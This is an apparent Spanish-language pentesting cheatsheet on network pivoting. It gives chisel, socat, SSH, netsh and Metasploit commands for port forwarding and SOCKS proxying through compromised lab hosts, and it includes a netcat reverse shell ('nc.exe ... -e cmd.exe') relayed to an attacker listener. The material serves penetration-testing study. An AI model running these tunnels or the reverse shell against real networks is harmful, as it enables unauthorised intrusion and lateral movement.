 ```yaml
---
title: "Pivoting"
draft: false
images: []
description: "Pivoting cheatsheet with chisel, socat and metasploit"
lead: "Pivoting cheatsheet with chisel, socat and metasploit"
menu:
  docs:
    parent: "Privesc"
weight: 100
toc: true
---
```



## <span style="color:#208355"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#208355">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#208355">Metasploit Portfwd</span>

In a meterpreter session

```bash
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#208355">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#208355">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#208355">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```bash
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```bash
nano /etc/proxychains.conf
```

### <span style="color:#208355">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```bash
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```bash
nc.exe 10.0.0.2 7777 -e cmd.exe
```

### <span style="color:#208355">Windows Proxying</span>

```bash
netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=9999 connectaddress=10.90.60.80
```

### <span style="color:#208355">Metasploit Autoroute</span>

In a meterpreter session

```bash
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0
